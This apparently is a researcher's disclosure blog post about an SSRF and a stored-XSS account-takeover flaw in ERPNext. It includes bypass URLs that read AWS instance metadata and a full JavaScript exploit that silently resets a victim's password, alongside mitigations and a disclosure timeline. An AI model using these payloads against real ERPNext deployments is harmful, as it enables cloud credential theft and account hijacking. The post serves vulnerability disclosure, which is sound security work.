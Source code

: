 ```yaml
---
title: SSRF and Account Takeover via XSS in ERPNext
date: 2022-04-06
tags: [Security]
categories: [Security]
---
```


<!-- summary -->
[ERPNext](https://erpnext.com/) is a very popular open-source ERP(Enterprise Resource Planning) software built on [Frappe Framework](https://github.com/frappe/frappe).

Last December, we found two vulnerabilities in the latest version of ERPNext: SSRF(Server-Side Request Forgery) and account takeover via XSS. Both vulnerabilities require a low-privileged authenticated user to perform the attack.
<!-- summary -->

By exploiting SSRF, a malicious actor could steal the credentials from cloud metadata and may lead to RCE. For XSS, it's possible to take over others’ accounts.

We reported both vulnerabilities on November 25th, 2021. At the time of writing, there is still no fix for those two issues, so we decided to publish the details to inform the public about the risk.

<!-- more -->

## SSRF(Server-Side Request Forgery)

In ERPNext, the user with certain roles can import data from files or Google Sheets:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p1.png)

After data is imported, you can preview the content before saving it to the system.

Following is the function for importing data from Google Sheets:

``` py
def get_csv_content_from_google_sheets(url):
  # https://docs.google.com/spreadsheets/d/{sheetid}}/edit#gid={gid}
  validate_google_sheets_url(url)
  # get gid, defaults to first sheet
  if "gid=" in url:
    gid = url.rsplit('gid=', 1)[1]
  else:
    gid = 0
  # remove /edit path
  url = url.rsplit('/edit', 1)[0]
  # add /export path,
  url = url + '/export?format=csv&gid={0}'.format(gid)

  headers = {
    'Accept': 'text/csv'
  }
  response = requests.get(url, headers=headers)

  if response.ok:
    # if it returns html, it couldn't find the CSV content
    # because of invalid url or no access
    if response.text.strip().endswith('</html>'):
      frappe.throw(
        _('Google Sheets URL is invalid or not publicly accessible.'),
        title=_("Invalid URL")
      )
    return response.content
  elif response.status_code == 400:
    frappe.throw(_('Google Sheets URL must end with "gid={number}". Copy and paste the URL from the browser address bar and try again.'),
      title=_("Incorrect URL"))
  else:
    response.raise_for_status()
```

It's straightforward, just get the data from Google Sheets and check the format.

But, what if we provide a URL that looks like Google Sheet URL, but it's not?

The system only checks if the URL contains `docs.google.com/spreadsheets`:

``` py
def validate_google_sheets_url(url):
  if "docs.google.com/spreadsheets" not in url:
    frappe.throw(
      _('"{0}" is not a valid Google Sheets URL').format(url),
      title=_("Invalid URL"),
    )
```

So, we can provide a URL like this: `http://localhost:8080/#docs.google.com/spreadsheets`, then we can get the response from the internal network. It's a classic SSRF vulnerability.

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p2.png)

If the port is open, the response will be different:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p3.png)

Moreover, we can access sensitive information via cloud metadata if the server is hosted on a cloud service.

For example, frappe cloud is hosted on AWS, so we can get metadata in `http://169.254.169.254/latest/dynamic/instance-identity/document#docs.google.com/spreadsheets`:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p4.png)

If there is an IAM associated with the instance, we can also read its credentials and escalate to RCE, here is one example: [Escalating SSRF to RCE](https://sanderwind.medium.com/escalating-ssrf-to-rce-7c0147371c40).

### Mitigation

Before a new patched version release, we suggest that:

1. Be careful when you grant importing data permission to a user.
2. Keep ERPNext in an isolated environment.
3. Requires [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html) for AWS instance.

## Account Takeover via XSS

Every user in the ERPNext system has a profile page, like the following:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p5.png)

Users can upload their profile images from devices:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p6.png)

When uploading files, the front-end will check the file name to ensure it's an image(.png, .jpg, and so on). But, the back-end has no such check, so we can upload an HTML file by intercepting the request and changing the file extension to `.html`.

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p7.png)

But unfortunately, we can't directly open the HTML file because of the `Content-Disposition` header:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p8.png)

Because of the header, the browser will download the HTML page instead of opening it.

After playing around with the feature for a while, we found that it can be bypassed by using the upper-case extension `.HTML`:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p9.png)

Now, we have an easy XSS. On the [security page](https://erpnext.com/security) of ERPNext, it clearly states that:

> Please Note: XSS and HTML Injections won't be accepted.

I think it's fine for some cases because pop-up an alert makes no harm, right? But what if we find a way to escalate it to another vulnerability with bigger impact?

Surprisingly, in ERPNext, the user doesn't need to input the old password to change to a new password:

![](/img/erpnext-ssrf-and-xss-to-account-takeover/p10.png)

So, we can write a script to automatically update the password for the victim user, like this:

``` html
<script>
  async function exploit(){
    // get user id from cookie
    const userId = document.cookie.match(/user_id=([^;]+)/)[1]
    console.log('user id:', userId)

    // get csrf token first
    const html = await fetch('/app').then(res => res.text())
    const token = html.match(/csrf_token = "(.+)";/)[1]
    console.log('csrf token:', token)

    // get user doc
    const json = await fetch('/api/method/frappe.desk.form.load.getdoc?doctype=User&name='+userId).then(res=>res.json())
    const docs = json.docs[0]
    console.log(docs)
    
    // just random strong password
    docs.new_password = 'WIofjg249hq@!32a'

    formBody = 'doc=' + encodeURIComponent(JSON.stringify(docs)) + '&action=Save'

    // update password
    const resp = await fetch('/api/method/frappe.desk.form.save.savedocs', {
      method: 'POST',
      headers: {
        'X-Frappe-Csrf-Token': token,
        'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
      },
      body: formBody
    });
    const result = await resp.json();
    console.log(result)
  }

  exploit()
</script>
```

When the victim user opens this page, their password will be updated.

So, as a malicious actor, I can upload the above content to the server, then send the URL to the admin. After the admin opens the page, I can take over his account because I know his password.

We successfully escalate from XSS to account takeover vulnerability.

### Mitigation

Before a new patched version release, we suggest that:

1. Be careful before opening any links hosted on ERPNext server, or using incognito mode to visit the link

## Conclusion

The latest version of ERPNext is vulnerable to both SSRF and XSS which can lead to account takeover. By exploiting SSRF, a malicious actor may read credentials from cloud metadata and escalate to RCE.

Both vulnerabilities require a low-privileged authenticated user to perform the attack.

There is no patch for the vulnerabilities at the time of writing. So we suggest that the user should be careful before the patch release. 

## Disclosure Timeline

`2021-11-25` Reported vulnerabilities via the [official form](https://erpnext.com/security)
`2021-12-15` Follow up, they said they are working on the fix
`2022-01-03` Follow up again, they said it's in the development phase
`2022-02-14` Follow up again, no response
`2022-02-23` 90 days since the initial report
`2022-03-10` Follow up again, no response
`2022-03-24` Ask for the updates, if there is no response we will publish the details in 14 days, no response
`2022-04-06` Public disclosure







